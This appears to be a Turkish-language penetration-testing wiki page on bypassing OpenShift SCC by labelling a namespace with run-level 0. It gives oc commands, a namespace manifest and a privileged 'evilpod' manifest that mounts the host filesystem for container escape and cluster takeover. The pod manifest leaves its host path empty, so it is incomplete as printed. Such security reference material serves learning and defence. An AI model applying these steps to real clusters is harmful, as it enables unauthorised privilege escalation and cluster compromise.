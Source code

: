 # Openshift - SCC bypass

**Bu sayfanın orijinal yazarı** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Ayrıcalıklı İsim Alanları

Varsayılan olarak, SCC aşağıdaki projelere uygulanmaz:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Bu isim alanlarından birinde pod'lar dağıtırsanız, SCC uygulanmayacak ve ayrıcalıklı pod'ların dağıtımına veya ana bilgisayar dosya sisteminin bağlanmasına izin verilecektir.

## İsim Alanı Etiketi

RedHat belgelerine göre, pod'unuzda SCC uygulamasını devre dışı bırakmanın bir yolu vardır. Aşağıdaki izinlerden en az birine sahip olmanız gerekecektir:

- Bir İsim Alanı Oluşturun ve Bu İsim Alanında Bir Pod Oluşturun
- Bir İsim Alanını Düzenleyin ve Bu İsim Alanında Bir Pod Oluşturun
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
`openshift.io/run-level` etiketinin belirli bir kullanımı, kullanıcıların uygulamalar için SCC'leri aşmalarını sağlar. RedHat belgelerine göre, bu etiket kullanıldığında, o ad alanındaki tüm pod'lar üzerinde hiçbir SCC uygulanmaz, bu da herhangi bir kısıtlamayı etkili bir şekilde ortadan kaldırır.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Etiket Ekle

Ad alanınıza etiketi eklemek için :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Bir YAML dosyası aracılığıyla etiket ile bir ad alanı oluşturmak için:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Artık, ad alanında oluşturulan tüm yeni pod'ların herhangi bir SCC'si olmamalıdır.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC'nin yokluğunda, pod tanımınız üzerinde herhangi bir kısıtlama yoktur. Bu, kötü niyetli bir pod'un ana sistemde kaçmak için kolayca oluşturulabileceği anlamına gelir.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Şimdi, ana sistemin erişim haklarını artırmak ve ardından tüm kümeyi ele geçirmek, 'cluster-admin' ayrıcalıkları kazanmak daha kolay hale geldi. Aşağıdaki sayfada **Node-Post Exploitation** kısmını arayın:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Özel etiketler

Ayrıca, hedef kurulumuna bağlı olarak, bazı özel etiketler / açıklamalar, önceki saldırı senaryosunda olduğu gibi kullanılabilir. Yapılmamış olsa bile, etiketler izin vermek, belirli bir kaynağı kısıtlamak veya kısıtlamamak için kullanılabilir.

Bazı kaynakları okuyabiliyorsanız özel etiketleri aramaya çalışın. İşte ilginç kaynakların bir listesi:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Tüm ayrıcalıklı ad alanlarını listele
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShift'te, daha önce gösterildiği gibi, `openshift.io/run-level` etiketine sahip bir ad alanında bir pod dağıtma iznine sahip olmak, kümenin kolayca ele geçirilmesine yol açabilir. Bir küme ayarları perspektifinden, bu işlevsellik **devre dışı bırakılamaz**, çünkü OpenShift'in tasarımına içkindir.

Ancak, **Open Policy Agent GateKeeper** gibi hafifletme önlemleri, kullanıcıların bu etiketi ayarlamasını engelleyebilir.

GateKeeper'ın kurallarını aşmak ve bu etiketi ayarlayarak bir küme ele geçirme işlemini gerçekleştirmek için, **saldırganların alternatif yöntemler belirlemesi gerekecektir.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
